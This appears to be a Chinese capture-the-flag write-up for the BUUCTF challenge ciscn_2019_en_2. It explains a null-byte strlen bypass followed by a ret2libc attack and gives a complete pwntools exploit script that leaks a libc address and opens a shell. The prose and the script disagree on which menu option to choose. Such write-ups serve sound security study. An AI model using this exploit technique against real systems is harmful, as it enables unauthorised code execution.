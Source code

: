 ### Strlen 绕过泄露 libc

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a71c17d0e0a243d4fd093a.png)

反编译文件，首先排除 3，因为它直接退出了

![](https://pic1.imgdb.cn/item/67a71d13d0e0a243d4fd0968.png)

如果不是 2 则调用 begin，去看看 begin 发现给了三个选择

![](https://pic1.imgdb.cn/item/67a71d41d0e0a243d4fd097a.png)

下面还有个不是 1 的判断，多调用了一个 encrypt，看来要输入 2

进去直接给出了 gets，左门 plt 表中有 puts，没有后门函数及字符串，看来要先泄露 libs

但是 strlen 函数在一个死循环里面，它会修改我们数据，得 \x00 截断绕过

然后通过 puts 打印出 puts 实际在 libc 中的地址

![](https://pic1.imgdb.cn/item/67a71d90d0e0a243d4fd098d.png)

查看缓冲区大小

![](https://pic1.imgdb.cn/item/67a71de2d0e0a243d4fd09ba.png)

先获取 pop rdi 及 ret 地址

![](https://pic1.imgdb.cn/item/67a71c07d0e0a243d4fd0938.png)

构造 payload

```python
from pwn import *

p = remote('node5.buuoj.cn',26156)

elf = ELF('./ciscn_2019_en_2')
pop_rdi = 0x400c83
ret = 0x4006b9
code = 0x4009a0
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']

p.recvuntil('choice!\n')
p.sendline(str(1))
p.recvuntil('encrypted\n')

payload = b'\x00' + b'a' * 0x57 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(code)
p.sendline(payload)
p.recvuntil('Ciphertext\n\n')

puts_add = u64(p.recv(6).ljust(8,b'\x00'))

system = puts_add - 0x31580
binsh = puts_add + 0x1334da

p.recvuntil('encrypted\n')

payload = b'\x00' + b'a' * 0x57 + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a71e9bd0e0a243d4fd0a03.png)
